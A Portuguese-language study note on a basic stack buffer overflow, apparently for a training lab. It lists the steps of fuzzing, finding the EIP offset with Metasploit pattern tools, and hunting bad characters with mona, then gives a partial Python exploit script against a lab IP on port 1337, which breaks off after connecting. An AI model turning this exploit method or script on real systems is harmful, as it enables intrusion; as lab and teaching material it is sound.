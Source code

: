 # Buffer Overflow - Vanila

-   Fazer o fuzzing com X inteiros, até a aplicação crashar
    

-   Usar o `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <tamanho>` para gerar um padrão para descobrir o EIP
    

-   Usar o `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <tamanho> -q <endereço_no_mona>`
    

-   Sobrescrever o EIP com um valor, que pode ser BBBB
    

-   Após isso, encontrar os badchars. É bom já fazer a criação da variavel bad, como abaixo
    

-   `!mona config -set workingfolder c:\mona\%p`
    

-   Rodar o programa e o exploit com todos os bads
    

```py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.18.205"

port = 1337

timeout = 5

prefix = "OVERFLOW1 "

retr = "BBBB"

sledge = ""

bad = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

tantofaz = ""

string = prefix + ("A" * 1978) + retr + sledge + bad + tantofaz

while True:

try:

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)
```